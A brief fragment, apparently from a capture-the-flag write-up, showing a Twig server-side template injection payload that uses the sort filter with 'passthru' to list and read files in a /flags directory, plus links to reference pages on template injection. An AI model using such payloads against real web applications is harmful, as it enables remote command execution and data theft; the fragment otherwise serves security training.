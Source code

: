 ```twig
{{['ls /flags',""]|sort('passthru')}} 
{{['cat /flags/xxxx.txt',""]|sort('passthru')}} 
```

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#ssti-in-go" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md" %}
